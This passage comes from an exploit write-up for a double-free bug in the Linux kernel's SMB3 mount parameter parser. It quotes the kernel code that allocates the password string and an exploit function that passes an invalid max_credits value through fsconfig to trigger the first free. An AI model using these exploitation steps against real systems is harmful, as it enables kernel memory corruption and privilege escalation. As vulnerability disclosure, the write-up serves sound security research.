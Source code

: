 ```c
```

- Kernel code:

```c
static int smb3_fs_context_parse_param(struct fs_context *fc,
				      struct fs_parameter *param)
{
  ...
  switch (opt) {
  case Opt_pass:
    ...

		ctx->password = kstrdup(param->string, GFP_KERNEL);
		if (ctx->password == NULL) {
			cifs_errorf(fc, "OOM when copying password string\n");
			goto cifs_parse_mount_err;
		}
		break;
  ...
}              
```

- This step allocate `ctx->password` which is vulnerable object.

### Step2.2: Free vulnerable object the first time
- Exploit code [exploit.c#L592](./exploit.c#L592):

```c
static inline void trigger_first_free(int fsfd)
{
  syscall(SYS_fsconfig, fsfd, FSCONFIG_SET_STRING, "max_credits", "19", 0);
}
```

- Kernel code:

```c
static int smb3_fs_context_parse_param(struct fs_context *fc,
				      struct fs_parameter *param)
{
  ...
  switch (opt) {
  ...

  case Opt_max_credits:
		if (result.uint_32 < 20 || result.uint_32 > 60000) {
			cifs_errorf(fc, "%s: Invalid max_credits value\n",
				 __func__);
			goto cifs_parse_mount_err;
		}

  ...
  }
  ...
 cifs_parse_mount_err:
	kfree_sensitive(ctx->password);
	return -EINVAL;
}              
```
